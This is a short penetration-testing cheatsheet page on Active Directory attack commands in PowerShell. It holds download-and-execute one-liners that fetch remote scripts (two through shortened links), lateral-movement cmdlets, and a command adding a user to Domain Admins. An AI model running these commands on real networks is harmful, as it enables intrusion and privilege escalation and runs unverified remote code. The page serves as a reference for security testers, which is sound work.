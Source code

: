 ```yaml
---
layout: default
title: Active Directory Enumeration with Powershell 
parent: Forensic
categories: Forensics Windows
grand_parent: Cheatsheets
has_children: true
---
```


# {{ page.title}}

## PRE-REQUISITE: Installing PowerView, PowerUp and PowerSploit

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1

```

## LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

## TOKEN IMPERSONATION

## ADD MEMBER
```
net group "Domain admins" dfm.a /add /domain  
```
